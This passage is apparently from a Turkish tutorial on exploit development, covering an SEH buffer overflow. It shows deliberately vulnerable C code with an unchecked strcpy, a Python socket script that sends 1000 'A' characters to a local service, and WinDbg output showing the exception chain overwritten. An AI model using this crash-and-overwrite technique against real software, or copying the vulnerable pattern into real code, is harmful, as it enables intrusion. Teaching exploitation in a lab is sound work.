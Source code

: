 #### Exploitin Yazılması
Programın zafiyet içeren kaynak kodu şu şekilde gösterilebilir.
	
	void seh(char *recvbuf) {
		char sendBuf[512];
		_try 
		{
			strcpy(sendBuf,recvbuf);	
			if(sendBuf[0] == '\x41') {
				   //Var olmayan adrese yazmaya calisarak
				   //bi exception olusturuluyor
				   int* p = 0x00000000;   
				   *p = 10;
			}	
		} 
		_except (EXCEPTION_EXECUTE_HANDLER) 
		{
			printf("Inside Exception Handler");
		}	    
	}

Gördüğünüz üzre zafiyete sebebiyet veren `strcpy()` fonksiyonu var ve herhangi bir uzunluk kontrolü yapılmamış. Şimdi programı header bilgisinde yazdığı biçimde derleyelim ardından exploit işlemine geçelim. Öncelikle programı Windbg ile açıyoruz açarken Şimdi programımıza şu python scriptini temel olarak kullanarak ***1000*** tane A karakteri gönderelim bakalım.

	#!/usr/bin python
	# -*- coding:utf-8 -*-

	import struct
	from socket import *

	host = "localhost"
	port = 8888
	adres = (host,port)

	Baglanti = socket(AF_INET,SOCK_STREAM)
	Baglanti.connect(adres)

	cokertkaarsim = "A" * 1000

	Baglanti.send(cokertkaarsim)
	Baglanti.close()

Göndermeden önce tabii ki programı Windbg ile açıyoruz. Ardından programı `g` komutu ile çalıştırıp paketi gönderiyoruz. Akabinde çökme gerçekleşecek ve biz de seh'in durumunu kontrol edeceğiz.

	(740.e74): Access violation - code c0000005 (first chance)
	First chance exceptions are reported before any exception handling.
	This exception may be expected and handled.
	eax=00000000 ebx=7ffdf000 ecx=0035449c edx=00000041 esi=01f6f798
    edi=01f6f6ee eip=5353105f esp=0012fb80 ebp=0012fda8 
	image53530000+0x105f:
	5353105f c7000a000000    mov     dword ptr [eax],0Ah  ds:0023:00000000=????????
	0:000> !exchain
	  0012fd98: 41414141
	  Invalid exception stack at 41414141
